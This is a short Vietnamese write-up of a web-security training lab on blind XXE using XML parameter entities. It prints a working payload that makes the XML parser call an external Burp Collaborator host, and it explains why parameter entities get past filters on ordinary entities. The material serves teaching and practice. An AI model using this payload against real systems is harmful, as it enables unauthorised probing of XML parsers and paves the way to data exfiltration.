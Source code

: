 ![image-20250803135014822](./image/image-20250803135014822.png)



### Lab 2: Blind XXE with out-of-band interaction via XML parameter entities

Lab des: Khai thác lỗ hổng Blind XXE dù ứng dụng:

- Không phản hồi bất thường,
- Chặn external entity thông thường,
- Nhưng vẫn xử lý parameter entity.

Steps:

Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % xxe SYSTEM "http://g0hkp917vrmvjfu8wvwg351fb6hx5otd.oastify.com"> %xxe; ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>

```

![image-20250803163627369](./image/image-20250803163627369.png)

`<!ENTITY % xxe SYSTEM "...">` là parameter entity.

`%xxe;` khi được parser xử lý sẽ tải nội dung từ Burp Collaborator, gây ra OOB interaction.

Dù block entity dạng thường (`&xxe;`), nhiều parser vẫn xử lý parameter entity (`%xxe;`).
